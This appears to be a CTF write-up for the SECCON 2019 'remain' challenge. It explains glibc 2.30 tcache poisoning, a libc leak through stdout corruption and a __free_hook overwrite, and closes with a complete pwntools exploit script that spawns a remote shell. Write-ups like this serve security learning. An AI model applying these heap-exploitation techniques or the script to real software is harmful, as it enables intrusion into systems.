 ```yaml
---
title: remain - SECCON CTF Quals 2019
date: 2019-10-20 15:00:00
categories:
  - Pwn
  - linux
  - heap
tags:
  - CTF
  - writeup
  - Pwn
---
```


linux heap exploitation challenge with glibc 2.30
<!-- excerpt -->

**Challenge points**: 418
**No. of solves**: 19

A glibc heap Note challenge

```c
Remain
MENU
****************
1. Add
2. Edit
3. Delete
0. Exit
****************
> 
```

Add
- malloc(0x48), fixed size
- read input into chunk
- check if space available in table[10]
- if full are there, then free chunk, else add to table

Edit
- Edit a chunk with size as strlen(content in the given table idx)

Delete
- Free a table[idx]
- table[idx] not nulled out, leading to `Use after Free`


glibc 2.30 has double free check just like 2.29
The tcache structure's address is used as cookie in a freed chunk in tcache. When a chuunk is freed ino the tcache.
```c
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);

  /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
  e->key = tcache;

  e->next = tcache->entries[tc_idx];
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}
```

With subsequent free, if the key value is equal to tcache structure's address, then all the chunks in the tcache linked list of the particular size is checked in a loop for double free.
```c
	tcache_entry *e = (tcache_entry *) chunk2mem (p);
	if (__glibc_unlikely (e->key == tcache))
	  {
	    tcache_entry *tmp;
	    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
	    for (tmp = tcache->entries[tc_idx];
		 tmp;
		 tmp = tmp->next)
	      if (tmp == e)
		malloc_printerr ("free(): double free detected in tcache 2");
	    /* If we get here, it was a coincidence.  We've wasted a
	       few cycles, but don't abort.  */
	  }
```
Since we have use after free in edit function, we can overwrite the key to bypass the check,... oops wait a minute, the edit function uses strlen to get the size of the edit which means bypass is not easy.

But we still can change the next pointer of a freed tcache chunk, giving an `arbitary write in the heap` by partialy overwriting freed chunk's next pointer.

#### Exploitation
Since there is no show function, we will have to overwrite the stdout file structure to leak libc addresses. This directed my ideas to getting a parial overwrite to a freed tcache chunk with a libc address as the next pointer.

The size is fixed to 0x48, filling the tcache with these chunk will only put them in fastbin. We have to change the size of the chunk and then free it to get libc address as fd.
Remember that pointers in the table are not nulled out, so we have to finish the exploit with 10 allocations.

After a lot of thinking, this is what I came up with,
- use the partial overwrite to get write to the tcache structure
- overwrite the count for the 0xa0 chunk to 0x7 in the tcache structure
- now, when we free a 0xa0 chunk it will be inserted into the unsorted bin
- To free a 0xa0 chunk we partially overwrite the fd of free chunk to point above the first chunk allocated so as to overwrite the size. 
- Set the size as 0x51 itself and free it once
- Change the size to 0xa1 and free it, I chose to overwrite with 0xa0, as the next chunk size fields will be already set and chunk will be inserted into the unsorted bin without any hazzles.
- As we have a free tcache chunk pointing to a libc address, partially overwrite the libc address to point to stdout.
- Overwrite the `stdout->flags` with `0xfbad1800` and partiallly overwrite the `write_base` to `\x00` to dump a region of memory with the next puts call.
- Now overwrite the fd of a free tcache chunk to get overwrite `__free_hook`

Following all these steps I had already consumed 9 allocations out of the possible 10. 
But I need two more allocations to write `system` to `__free_hook`
Looking at the add functions again, we can notice that an allocation is made, our input is read into it and then free is called if table is full. This satisfies our requiredments perfectly.
Use the 10th allocation, and then 11th one to overwrite `__free_hook`. `system` is called for us within add functionality and we get shell :)

**Note: ** There is a 4 bit bruteforce for tcache structure and another 4 bit bruteforce to get stdout. Luckily I got shell in remote server in the 4th or 5th try.

```python
from pwn import *

#s=process("./rem",env={'LD_PRELOAD' : './libc.so.6'})
s=remote("remain.chal.seccon.jp", 27384)
libc=ELF("./libc.so.6")

def add(data):
    s.sendlineafter("> ", str(1))
    s.sendlineafter("Input memo > ", str(data))

def edit(idx, data):
    s.sendlineafter("> ", str(2))
    s.sendlineafter("Input id > ", str(idx))
    s.sendafter("Input new memo > ", str(data))

def free(idx):
    s.sendlineafter("> ", str(3))
    s.sendlineafter("Input id > ", str(idx))


# allocate tcache struct and overwrite the count for 0xa0 chunk with 0x7 
# when we free 0xa0 chunk, it will be inserted into the unsorted bin
add("a"*0x20 + p64(0) + p64(0x51))
add("a"*0x20 + p64(0) + p64(0x21))
free(0)
free(1)
edit(1,p16(0x7000)) # partially overwrite to point to tcache structure (4-bit bruteforce)
add("a"*0x40)
add(p64(0) + p64(0x291) + p64(0x0000000000000000) + p64(0x0707070707070707))
log.success("tcache structure written")

free(0)
free(1)
edit(1,p8(0x90)) # partially overwrite to point above chunk 1
add("a"*0x40)
add("b"*0x8 + p64(0x51)) # size edit primitive established
add("f"*0x40) # chunk allocated to prevent coallesing
free(6)
free(0)
edit(5,"a"*0x8 + "\xa1") # set size as 0xa0 
free(0)
log.success("freed 0xa0 chunk")

edit(0,"\xa0\x16") # partially ovewrite freed chunk
add("a"*0x40)
add(p64(0xfbad1800) + p64(0x00)*3 + "\x00")
s.recv(0x20)
base = u64(s.recv(8))-0x3b5a60
log.info("libc = " + hex(base))
free_hook = base + libc.symbols['__free_hook']
malloc_hook = base + libc.symbols['__malloc_hook']
system = base + libc.symbols['system']

edit(5,"a"*0x8 + "\x51")
free(0) 
free(1)
edit(1,p64(free_hook-0x8)[:-2])
add("a"*0x40)
add("/bin/sh\x00" + p64(system))
s.sendline("cat flag.txt")

s.interactive()
```




